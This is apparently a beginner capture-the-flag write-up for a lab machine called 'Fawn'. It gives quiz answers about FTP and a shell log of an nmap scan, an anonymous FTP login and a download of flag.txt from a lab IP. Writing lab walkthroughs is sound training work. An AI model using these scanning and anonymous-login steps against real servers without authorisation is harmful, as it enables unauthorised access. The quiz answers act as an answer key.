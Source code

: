 # Fawn

> 目标 IP: 10.11.11.11

## TAKS 1

> What does the 3-letter acronym FTP stand for?

- File Transfer Protocol

## TASK 2

> Which port does the FTP service listen on usually?

- 21

## TASK 3

> FTP sends data in the clear, without any encryption. What acronym is used for a later protocol designed to provide similar functionality to FTP but securely, as an extension of the SSH protocol?

- SFTP

## TASK 4

> What is the command we can use to send an ICMP echo request to test our connection to the target?

- ping

## TASK 5

> From your scans, what version is FTP running on the target?

- vsftpd 3.0.3

## TAKS 6

> From your scans, what OS type is running on the target?

- Unix

## TAKS 7

> What is the command we need to run in order to display the 'ftp' client help menu?

- ftp -h

## TAKS 8

> What is username that is used over FTP when you want to log in without having an account?

- anonymous

## TAKS 9

> What is the response code we get for the FTP message 'Login successful'?

- 230

## TAKS 10

> There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.

- ls

## TAKS 11

> What is the command used to download the file we found on the FTP server?

- get

## Submit Flag

```shell
$ nmap -sV -Pn 10.11.11.11
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

$ ftp 10.11.11.11
Connected to 10.11.11.11.
220 (vsFTPd 3.0.3)
Name (10.11.11.11:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61039|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||24987|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |**************************************************************************************************************|    32        0.11 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:01 (0.01 KiB/s)
ftp> exit
221 Goodbye.
```

